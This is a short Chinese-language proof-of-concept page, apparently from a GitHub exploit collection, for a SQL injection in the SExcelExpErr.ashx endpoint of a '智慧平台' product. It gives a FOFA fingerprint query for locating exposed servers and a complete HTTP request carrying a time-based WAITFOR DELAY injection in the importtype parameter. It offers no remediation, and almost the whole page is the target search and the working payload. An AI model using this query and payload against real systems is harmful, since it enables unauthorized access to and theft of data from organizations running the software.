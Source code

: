 ### 智慧平台SExcelExpErr.ashx存在SQL注入漏洞
智慧平台SExcelExpErr存在SQL注入漏洞，攻击者可通过该漏洞获取数据敏感信息。

## fofa
```javascript
body="custom/blue/uimaker/easyui.css"
```

## poc

```plain
GET /ashx/KQ/SExcelExpErr.ashx?action=list&importtype=1%27%3BWAITFOR+DELAY+%270%3A0%3A5%27-- HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1728547381034-1a95c6c4-532a-43f3-b852-1c52b5cb8fc5.png)


